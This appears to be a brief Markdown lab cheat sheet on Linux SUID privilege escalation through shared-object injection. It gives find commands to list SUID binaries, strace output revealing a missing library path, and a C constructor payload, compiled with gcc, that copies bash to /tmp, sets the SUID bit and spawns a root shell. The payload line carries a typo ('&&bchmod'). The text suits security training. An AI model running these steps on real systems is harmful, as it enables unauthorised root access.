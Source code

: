    ## Enumeration
    
        find / -perm -u=s -type f 2>/dev/null
        find / -type f -perm -04000 -ls 2>/dev/null
        
        
   ## Resource 
   
       https://gtfobins.github.io/
       
  ## Shared Object Injection
  
       find / -type f -perm -04000 -ls 2>/dev/null
       strace <PATH=2>&1
       
       
  ## TYPE COMMAND 
  
       strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
  ## OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


   ## Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
       #include <stdio.h>
       #include <stdlib.h>

       static void inject()__attribute__((constructor));

      void inject() {
        system("cp /bin/bash /tmp/bash &&bchmod +s /tmp/bash && /tmp/bash -p");
}  
   
   ## Complie

       gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c










     
    
